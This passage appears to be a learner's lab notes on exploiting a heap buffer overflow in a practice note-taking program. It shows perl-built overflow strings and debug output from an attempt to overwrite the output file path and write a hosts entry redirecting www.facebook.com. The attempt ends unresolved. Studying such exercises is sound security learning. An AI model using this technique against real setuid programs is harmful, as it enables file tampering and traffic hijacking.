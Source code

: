 ```
```
Denied... even with sudo. Well, let's try it with a less protected file than /etc/hosts. /tmp/hosts, your time to shine.
```
ln -sf /tmp/hosts /tmp/notes?
ls -l /tmp/notes?
lrwxrwxrwx 1 rad rad 10 Sep 16 23:23 /tmp/notes? -> /tmp/hosts
/a.out "$(perl -e 'print "sketchy.ip.address www.facebook.com # " . "A"x74 . "/tmp/notes"')"
[DEBUG] buffer   @ 0x55767016b010: 'sketchy.ip.address www.facebook.com # AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/notes'
[DEBUG] datafile @ 0x55767016b080: '/tmp/notes'
[!!] Fatal Error in main() while opening file: Permission denied
```
Whyyyy? How does open() deal with symlinks? `man 2 open`
```
       O_NOFOLLOW
              If pathname is a symbolic link, then the open fails, with
              the error ELOOP.  Symbolic links in earlier components of
              the  pathname  will  still  be  followed.  (Note that the
              ELOOP error that can occur in this case is indistinguish‐
              able  from the case where an open fails because there are
              too many symbolic links found while resolving  components
              in the prefix part of the pathname.)

```
O_NOFOLLOW isn't set in simplenote.c, so the symlink should be followed... The "permission denied" error above comes from a call to perror(), which prints a string ("[!!] Fatal Error in main() while opening file") plus info about the last error encountered during a call to a system to library function. If the info is "permission denied", I'm guessing the error was EACCESS.

Hrmmmm....... Let's try with a non-symlink target again.
`./a.out "$(perl -e 'print "sketchy.ip.address www.facebook.com # " . "A"x74 . "/tmp/test"')"`
Note successfully saved, apparently. Let's see what's in /tmp/test?.
```
cat /tmp/test?
sketchy.ip.address www.facebook.com # AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/test
```
Okay, so it's something to do with the symlink. I dunno, man.

